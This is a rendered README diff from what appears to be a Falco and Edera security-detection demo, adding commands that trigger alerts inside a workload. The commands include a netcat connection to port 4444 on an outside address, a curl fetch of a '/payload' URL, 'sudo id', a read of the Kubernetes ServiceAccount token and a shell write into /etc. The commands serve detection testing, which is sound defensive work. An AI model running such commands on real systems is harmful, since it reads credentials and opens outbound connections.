

Before and after one commit to ndouglas-edera/my-webernetes-demo, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Added as many plausible falco detections as possible
This tests need to be ready for Kubecon

````diff
--- a/README.md
+++ b/README.md
@@ -465,7 +465,7 @@ Configure the Edera Falco plugin
 ```
 sudo cat /etc/falco/config.d/falco-edera-config.yaml
 ```
-Install Edera detection rules
+Install the **10 custom** Edera detection rules
 ```
 sudo cat /etc/falco/rules.d/falco-edera-rules.yaml
 ```
@@ -528,5 +528,25 @@ protect workload exec llm-app nc 203.0.113.10 4444
 
 **[Detect outbound network connections](https://docs.edera.dev/guides/observability/falco-integration/#detect-outbound-network-connections)**
 ```
-protect workload exec llm-app curl https://example.com
+protect workload exec llm-app curl https://example.com/payload
 ```
+
+**Edera privilege escalation**
+```
+protect workload exec llm-app sudo id
+```
+
+**Edera ServiceAccount access** (and the broader **sensitive-read** rule where applicable)
+```
+protect workload exec llm-app cat /var/run/secrets/kubernetes.io/serviceaccount/token
+```
+
+**Edera sensitive file write** + **Edera shell command execution**
+```
+protect workload exec llm-app /bin/sh -c "echo demo > /etc/demo.conf"
+```
+
+The accumulated detections continue to appear in the logs:
+```
+kubectl logs -n falco -l app.kubernetes.io/name=falco -f
+```
````
